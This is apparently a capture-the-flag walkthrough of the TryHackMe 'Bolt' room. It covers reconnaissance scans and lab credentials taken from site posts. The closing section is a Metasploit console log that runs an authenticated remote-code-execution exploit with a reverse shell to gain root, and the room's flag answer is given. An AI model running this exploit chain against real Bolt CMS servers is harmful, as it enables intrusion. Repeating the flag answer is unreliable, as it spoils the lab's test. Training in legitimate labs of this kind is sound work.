Bolt Link: https://tryhackme.com/r/room/bolt

Firstly we will start with golden searches because scanning takes a long time.  
nmap -pn -p- -sC -sV (IP) -vvv -oA nmap_full  
  
with nmap scan. Nmap shows us three ports are open, we don’t any information about ssh, let’s focus on http

Basic Directory Scan, gobuster  
**gobuster di**r -u http://IP -w /usr/share/wordlists/dirb/common.txt

Basic Scan, dirb = We will use these results for web server analysis.  
\*\*dirb http://\*\*IP = We will use these results for web server analysis.

Basic Scan netdiscover  
netdiscover = It is used during penetration tests to quickly identify which devices are  
connected to the network.

Access the website, and we get it.



let’s explore this website, in the first article we get interesting information, where we get the username.  


The second article shows that we get the password to log in.



Username: bolt  
Password: boltadmin123

I tried to search on Google for the Bolt CMS default login page address.



let’s try to access the login page using the username and password that we got earlier.



yeah, we’re in :) on the web dashboard we get information about the CMS version of this website.



> What version of the CMS is installed on the server? (Ex: Name 1.1.1)
> 
> Answer : Bolt 3.7.1
> 
> 



Look for vulnerabilities in this version of the CMS, and it looks like there are vulnerabilities there.  






> There’s an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What’s its EDB-ID?
> 
> Answer: 48296

&nbsp;

Q: Metaspluoi

Answer: exploit/unix/webapp/bolt_authenticated_rce

&nbsp;

let’s try using msfconsole, and look for a module that matches the vulnerability we’ve been looking for before.

just type search bolt --> this command is going to find all macthing bolt exploits.



Use the module, and it can be seen that we need a username, password, rhost, and rhost to run this exploit  


Set username, password, rhost, and rhost with existing information.  




Run the exploit, and boommm. we’re in :)



Try to see the account that we got, and we have got root access :)

Look for the flag in the machine, and we get it.

1.  way



> Look for flag.txt inside the machine.
> 
> Answer: THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}

second way



# Conslusion:

msfconsole is a powerful tool for cybersecurity professionals and facilitates tasks such as  
testing attack vectors, finding vulnerabilities, and bypassing security defenses. This tool is used  
by both ethical hackers and malicious actors.  
“msfconsole is a strong tool for cybersecurity experts. It helps test attack methods, find  
security weaknesses, and get around security protections. Both ethical hackers and bad actors  
use this tool.”  
"First I used the 'use' command to select the exploit and then the 'show options' command to  
look for all the options available in the exploit."  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS bolt  
RHOSTS => bolt  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST  
10.9.137.76  
LHOST => 10.9.137.76  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD  
boltadmin123  
PASSWORD => boltadmin123  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt  
USERNAME => bolt  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LPORT 3344  
LPORT => 3344  
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit  
Whoami  
Root  
find / -name 'flag.txt' 2>/dev/null  
/home/flag.txt  
Cat /home/flag.txt  
THM…..  
Shell , enter!  
\[+\] Reverted user profile back to original state.  
id  
uid=0(root) gid=0(root) groups=0(root)  
Now that we have a root shell, we can read the final flag. I searched for the flag and found that it  
was present in the home directory.  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
root@bolt:~/public/files# find / -name flag.txt 2>/dev/null  
find / -name flag.txt 2>/dev/null  
/home/flag.txt  
root@bolt:~/public/files# cat /home/flag.txt  
cat /home/flag.txt  
THM{\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}  
root@bolt:~/public/files#  
OR
